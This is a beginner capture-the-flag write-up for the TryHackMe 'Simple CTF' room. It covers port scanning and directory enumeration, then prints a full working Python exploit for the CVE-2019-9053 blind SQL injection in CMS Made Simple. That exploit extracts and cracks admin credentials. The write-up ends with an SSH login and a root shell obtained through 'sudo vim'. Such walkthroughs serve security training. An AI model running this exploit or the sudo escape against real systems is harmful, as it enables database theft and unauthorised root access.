

# TryHackMe Simple CTF Write-up

The Simple CTF challenge on the TryHackMe platform is designed for beginners to learn how to scan, enummerate, research, exploit, and utilize privelage escalation. Enjoy!

THM Target IP: 10.201.96.113

## 1. Recon

### Rustscan

The first thing I do on every room is perform a scan for any open ports I could use to my advantage.

Most folks use the nmap tool, which is still a good tool, however I personally use Rustscan since it scans ports more efficiently than nmap does. Both tools can work for this challenge. Below is a a screenshot of the rustscan tool I used.


From the results, we can see that the following ports are open...

- 21 (ftp)
- 80 (http)
- 2222 (ssh)

**Q1: How many services are running under port 1000?**

- *Answer: 2*
- Port 21 (ftp) and port 80 (http) are two services that have ports under 1000*

**Q2: What is running on the higher port?**

- *Answer: SSH*

Knowing that this is a website being hosted, lets visit it to see if it gives us anything.


Looks like the defauly Apache2 page, nothing to go off here.

The next thing we will try is using gobuster to see if there are any additional pages on the website.

```
gobuster dir -u http://10.201.96.113:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100
```


It appears we hit two pages on the website using the medium wordlist.

- /simple
- /server-status

Lets see what http:10.201.96.113/simple has.


Scrolling to the bottom of the page, we can see that the version is 2.2.8. 


Let’s see if there is anything online about this particular version by simply going to Google and searching “CMS Made Simple 2.2.8 exploit”.

In our results, we see a page on Exploit-DB that matches our search and refers to a SQL injection attack utilizing CVE-2019–9053.


**Q3: What's the CVE you're using against the application?**

- *Answer: CVE-2019–9053*

**Q4: To what kind of vulnerability is the application vulnerable?**

- *Answer: SQLi*

## 2. Exploitation

Now that we know what open ports and services the target is using, we can use the exploit python script given by Exploit Database to potentially exploit the simple page.

The exploit script is a python script and I copied it over to my attackbox VM.

**Exploit Script from Exploit Database:**

Note: I converted the script from python 2 to python 3.

``` .py

#!/usr/bin/env python3
# Exploit Title: Unauthenticated SQL Injection on CMS Made Simple <= 2.2.9
# Vector: News module (m1_idlist) time-based blind SQLi
# CVE: CVE-2019-9053
# Original (Py2) Author: Daniele Scanu @ Certimeter Group
# Py3 port: minimal changes to run cleanly on Python 3

import argparse
import hashlib
import time
import requests

# termcolor is optional; fall back to plain prints if missing
try:
    from termcolor import cprint
    def _cprint(msg, color='green', bold=True):
        attrs = ['bold'] if bold else None
        cprint(msg, color, attrs=attrs)
except Exception:
    def _cprint(msg, color='green', bold=True):
        print(msg)

# ------------------ args ------------------
ap = argparse.ArgumentParser(description="CVE-2019-9053 (CMS Made Simple <=2.2.9) time-based blind SQLi via News:m1_idlist")
ap.add_argument('-u', '--url', required=True, help='Base target URL (e.g. http://10.201.96.113/simple)')
ap.add_argument('-w', '--wordlist', help='Wordlist to crack admin password (e.g. /usr/share/wordlists/rockyou.txt)')
ap.add_argument('-c', '--crack', action='store_true', default=False, help='Attempt to crack password with wordlist')
ap.add_argument('--time', type=float, default=1.0, help='Sleep time used by the SQLi (default: 1.0s)')
ap.add_argument('--timeout', type=float, default=8.0, help='HTTP timeout per request (default: 8s)')
args = ap.parse_args()

base_url = args.url.rstrip('/')
url_vuln = f"{base_url}/moduleinterface.php?mact=News,m1_,default,0"
session = requests.Session()

dictionary = (
    "1234567890qwertyuiopasdfghjklzxcvbnm"
    "QWERTYUIOPASDFGHJKLZXCVBNM@._-$"
)

# State
flag = True
password = ""
salt = ""
db_name = ""   # username
email = ""
output = ""

# ------------------ helpers ------------------

def beautify_print_try(value):
    """Clear screen, show current output, and show the current guess."""
    print("\033c", end="")
    if output:
        _cprint(output, 'green', bold=True)
    _cprint(f"[*] Try: {value}", 'red', bold=True)

def beautify_print():
    """Clear screen and show accumulated output."""
    print("\033c", end="")
    if output:
        _cprint(output, 'green', bold=True)

def timed_get(url):
    """GET with timing to detect sleep()."""
    start = time.time()
    try:
        session.get(url, timeout=args.timeout)
    except requests.RequestException:
        # treat errors as no delay triggered
        return 0.0
    return time.time() - start

# ------------------ sqli dumpers ------------------

def dump_salt():
    global flag, salt, output
    ord_salt = ""
    ord_salt_temp = ""
    while flag:
        flag = False
        for ch in dictionary:
            temp_salt = salt + ch
            ord_salt_temp = ord_salt + format(ord(ch), 'x')
            beautify_print_try(temp_salt)
            # original payload structure retained
            payload = (
                f"a,b,1,5))+and+(select+sleep({args.time})+from+cms_siteprefs+"
                f"where+sitepref_value+like+0x{ord_salt_temp}25+and+sitepref_name+like+0x736974656d61736b)+--+"
            )
            url = f"{url_vuln}&m1_idlist={payload}"
            elapsed = timed_get(url)
            if elapsed >= args.time:
                flag = True
                break
        if flag:
            salt = temp_salt
            ord_salt = ord_salt_temp
    flag = True
    output += f"\n[+] Salt for password found: {salt}"

def dump_password():
    global flag, password, output
    ord_password = ""
    ord_password_temp = ""
    while flag:
        flag = False
        for ch in dictionary:
            temp_password = password + ch
            ord_password_temp = ord_password + format(ord(ch), 'x')
            beautify_print_try(temp_password)
            payload = (
                f"a,b,1,5))+and+(select+sleep({args.time})+from+cms_users"
                f"+where+password+like+0x{ord_password_temp}25+and+user_id+like+0x31)+--+"
            )
            url = f"{url_vuln}&m1_idlist={payload}"
            elapsed = timed_get(url)
            if elapsed >= args.time:
                flag = True
                break
        if flag:
            password = temp_password
            ord_password = ord_password_temp
    flag = True
    output += f"\n[+] Password (hash) found: {password}"

def dump_username():
    global flag, db_name, output
    ord_db_name = ""
    ord_db_name_temp = ""
    while flag:
        flag = False
        for ch in dictionary:
            temp_db_name = db_name + ch
            ord_db_name_temp = ord_db_name + format(ord(ch), 'x')
            beautify_print_try(temp_db_name)
            payload = (
                f"a,b,1,5))+and+(select+sleep({args.time})+from+cms_users+"
                f"where+username+like+0x{ord_db_name_temp}25+and+user_id+like+0x31)+--+"
            )
            url = f"{url_vuln}&m1_idlist={payload}"
            elapsed = timed_get(url)
            if elapsed >= args.time:
                flag = True
                break
        if flag:
            db_name = temp_db_name
            ord_db_name = ord_db_name_temp
    output += f"\n[+] Username found: {db_name}"
    flag = True

def dump_email():
    global flag, email, output
    ord_email = ""
    ord_email_temp = ""
    while flag:
        flag = False
        for ch in dictionary:
            temp_email = email + ch
            ord_email_temp = ord_email + format(ord(ch), 'x')
            beautify_print_try(temp_email)
            payload = (
                f"a,b,1,5))+and+(select+sleep({args.time})+from+cms_users+"
                f"where+email+like+0x{ord_email_temp}25+and+user_id+like+0x31)+--+"
            )
            url = f"{url_vuln}&m1_idlist={payload}"
            elapsed = timed_get(url)
            if elapsed >= args.time:
                flag = True
                break
        if flag:
            email = temp_email
            ord_email = ord_email_temp
    output += f"\n[+] Email found: {email}"
    flag = True

# ------------------ cracking ------------------

def crack_password(wordlist_path):
    """Try to crack MD5(salt + password_plain) against the retrieved hash."""
    global password, output, salt
    if not (wordlist_path and salt and password):
        return
    try:
        with open(wordlist_path, "r", errors="ignore") as f:
            for line in f:
                word = line.rstrip("\r\n")
                beautify_print_try(word)
                test_hash = hashlib.md5((salt + word).encode()).hexdigest()
                if test_hash == password:
                    output += f"\n[+] Password cracked: {word}"
                    break
    except FileNotFoundError:
        output += f"\n[!] Wordlist not found: {wordlist_path}"

# ------------------ main flow ------------------

if __name__ == "__main__":
    dump_salt()
    dump_username()
    dump_email()
    dump_password()

    if args.crack and args.wordlist:
        _cprint("[*] Now try to crack password", 'yellow', bold=True)
        crack_password(args.wordlist)

    beautify_print()
            
```
Now lets run the script and see what we get. 

```
python3 simple_exploit_py3.py -u http://10.201.96.113/simple --crack -w /usr/share/wordlists/rockyou.txt
```


Bingo! We got a username and a cracked password returned from the exploit.

**Q5: What's the password?**

- *Answer: secret*

**Q6: Where can you login with the details obtained?**

- *Answer: SSH*

Using the username and password we just cracked, we can try to log in via SSH.


Nice! It looks like we were able to successfully log into SSH. Now we will see what it has in store for us. I went ahead and read the contents of the user.txt, which was a flag (redacted due to THM policy on write-ups).


**Q7: What's the user flag?**

- *Answer: Content inside user.txt*
- Redacted due to THM policy.

Now lets check if there are any other user home directories while we are in SSH.


**Q8: Is there any other user in the home directory? What's its name?**

- *Answer: sunbath*

Next, we need to do some privileged escalation! First I'd like to start out by using "sudo -l" to see what my current user can do.


We can see the user “mitch” can run /usr/bin/vim without a password. With that information, let’s check out GTFOBins and see if we can use that for privesc.


I ran this command to escalate my privleges.

```
sudo vim -c ':!/bin/sh'
```
**Q9: What can you leverage to spawn a privileged shell?**

- *Answer: vim*


It worked! From here all I have to do is grab the root flag and the CTF is complete.



**Q10: What's the root flag?**

- *Answer: Content inside root.txt*
- Redacted due to THM policy.

## Congratulations! 

Overall, this was a straightforward but valuable room. It guided us through the fundamentals: scanning with RustScan/Nmap, brute-forcing directories with Gobuster, researching and applying a public exploit, consulting GTFOBins for privilege escalation techniques, and ultimately gaining root access to capture the final flag.
